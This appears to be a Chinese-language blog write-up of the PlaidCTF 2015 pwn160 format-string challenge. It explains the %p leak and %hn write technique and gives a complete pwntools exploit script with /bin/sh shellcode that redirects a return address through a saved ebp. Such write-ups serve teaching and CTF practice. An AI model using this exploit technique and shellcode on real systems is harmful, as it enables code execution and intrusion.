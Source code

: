 ```yaml
---
title: PlaidCTF CTF 2015 pwn160 
date: 2017-04-14 21:44:19
tags:
- 指针
- 格式化字符串漏洞
- pwn
---
```

PlaidCTF CTF 2015 pwn160格式化字符串漏洞之前指针没有理解好，所以理解这题的攻击花了不少功夫，记录一下思路：程序中的sprintf第三个参数format由我们控制，存在明显的格式化字符串漏洞。这个程序给了一个全局buf，大小为1024字节，可以植入shellcode，主要的难点是如何将某个函数的返回地址（脚本中写的是make_response返回地址）改成buf中的地址。这里用
<!-- more -->
# PlaidCTF CTF 2015 pwn160
## 格式化字符串漏洞
之前指针没有理解好，所以理解这题的攻击花了不少功夫，记录一下

### 思路：
程序中的sprintf第三个参数format由我们控制，存在明显的格式化字符串漏洞。

这个程序给了一个全局buf，大小为1024字节，可以植入shellcode，主要的难点是如何将某个函数的返回地址（脚本中写的是make_response返回地址）改成buf中的地址。

这里用到两种关键的格式化字符:

“%?$p”

这个格式化字符串打印相对format参数正向偏移任意栈地址中的内容，其中的p可以用d，x等替代

“%(number)c%?$hn”

这个格式化字符串可以实现向第？个参数存的地址的低字节中写数据，数据值为number的值（%hn，将指针视为 short 型指针，更为常用，因为要写入多大的数字，就需要打印多少个字符，如果直接用 int 操作，数字较大时打印会很慢，所以经常用%hn分两步进行）。 
~~~
注意这里的%(number)c%?n(或%?hn)是把从格式化字符串所在栈地址开始，正向偏移的第?个栈地址中存放的值取出，作为一个地址（addr），并往这个addr中写入number这个数值
~~~

这里用%hn，只能够向addr这个地址的低2字节写入数据（number），为什么是低2字节而不是高2字节？因为x86以低地址作为存储字地址。如果要用%hn向某个地址的高地址写入数据，则需要修改第?个参数中存储的值，也就是这个addr，将其改为addr+2即可。

说完了这一题用到的知识点，再来说一说这一题的难点。
~~~
这一题的难点在于，由于我们的目标是利用格式化字符串漏洞修改make_response这个函数的返回地址，那就需要用到%n.

就如之前分析的，栈上需要有一个在格式化字符串参数正向偏移位置的地址，所存的值是存着make_response的返回地址的栈地址(addr1).

然后才能用这个%n来将addr1中的make_response的地址修改为shellcode的地址。

去哪找这么一个地址呢？这题的题目就是一个提示--ebp
~~~

ps:我暂时没发现这题有什么其他栈溢出漏洞，其他类型的漏洞如果有的话一定洗耳恭听

exploit：
~~~
#encoding=utf8
from pwn import *
buf_addr = 0x804A080
shellcode = "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x52\x53\x54\x59\x0f\x34"
padding_len = (buf_addr & 0xffff) - len(shellcode)
# "&"'s priority is lower then "-"
io = process("./ebp")
io.sendline("%4$p")                                            #step1
#the forth parma storing echo's ebp, 
#which is a pointer storing main's ebp addr
main_ebp_addr = int(io.recvline(),16)
mr_ret_addr = (main_ebp_addr - 0x1c) & 0xffff
io.sendline("%"+str(mr_ret_addr) +"c%4$hn")                        #step2
#make main's ebp as a pointer of mr_ret_addr
io.sendline(shellcode + "%"+str(padding_len)+"c%12$hn")            #step3
io.interactive()
~~~

思路：

步骤1.

打印出（存echo返回地址的栈地址-4）这个栈地址中的内容，因为这里面存着main函数的ebp的地址，通过这个地址，可以计算出存有make_response的返回地址的栈地址(记为a0)。

步骤2.

将main函数的ebp修改为了a0，这之后，main的ebp就可以作为%n需要的地址来修改a0中的值（原来是make_response的返回地址）了。

步骤3.

将存有shellcode的buf（全局变量）的地址用%n写入，修改了make_response的返回地址，完成攻击。

